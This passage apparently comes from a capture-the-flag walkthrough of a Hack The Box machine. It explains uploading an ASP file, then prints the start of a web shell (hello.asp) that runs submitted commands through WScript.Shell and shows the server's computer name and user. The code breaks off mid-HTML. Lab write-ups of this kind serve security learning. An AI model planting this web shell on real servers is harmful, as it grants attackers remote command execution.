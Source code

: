 <a class="image-popup">
![97ad894b.png](/assets/images/posts/conceal-htb-walkthrough/97ad894b.png)
</a>

Armed with this knowledge, we can upload a simple ASP file that executes commands remotely.

<div class="filename"><span>hello.asp</span></div>

```html
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<html>
<body>
<form action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</form>
<pre>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
</pre>
<br>
<b>Command Output:</b>
<br>
<pre>
```